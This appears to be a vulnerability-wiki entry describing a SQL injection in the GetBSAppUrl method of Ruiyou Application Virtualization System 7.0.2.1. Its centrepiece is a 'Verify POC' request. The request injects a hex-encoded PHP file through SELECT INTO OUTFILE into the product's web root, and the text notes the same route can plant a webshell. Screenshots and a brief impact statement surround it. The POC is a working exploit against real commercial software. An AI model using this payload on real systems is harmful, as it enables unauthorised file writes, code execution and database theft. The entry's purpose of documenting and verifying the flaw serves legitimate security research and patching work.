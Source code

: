 # Ruiyou Application Virtualization System GetBSAppUrl SQL Injection Vulnerability

## Vulnerability Description

Ruiyou Application Virtualization System The GetBSAppUrl method has a SQL injection vulnerability. Since the parameter incoming is not filtered, SQL injection occurs. The attacker can obtain database sensitive information through the vulnerability.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Ruiyou Application Virtualization System 7.0.2.1</span>

## Network surveying and mapping



## Vulnerability reappears

Login page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1681181309572-a70542e4-5ec8-4441-bf73-d097a59be7d5.png)



There is a SQL injection vulnerability in the GetBSAppUrl method, through which the vulnerability can be written to the Webshell file

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1681187680384-430aaff0-d568-4144-ac8b-bd2ff471e2b3.png)

Verify POC

```plain
/index.php?s=/Agent/GetBSAppUrl/AppID/')%3bselect+0x3c3f70687020706870696e666f28293b3f3e+into+outfile+%27C%3a\\Program+Files+(x86)\\RealFriend\\Rap+Server\\WebRoot\\test7.php%27%23/123
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1681188074734-58253667-cdba-4a7e-88ad-87e0d63658cb.png)

```plain
/test7.php
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1681181764154-3a7a73d8-20a2-4a11-b837-ac9d0363955b.png)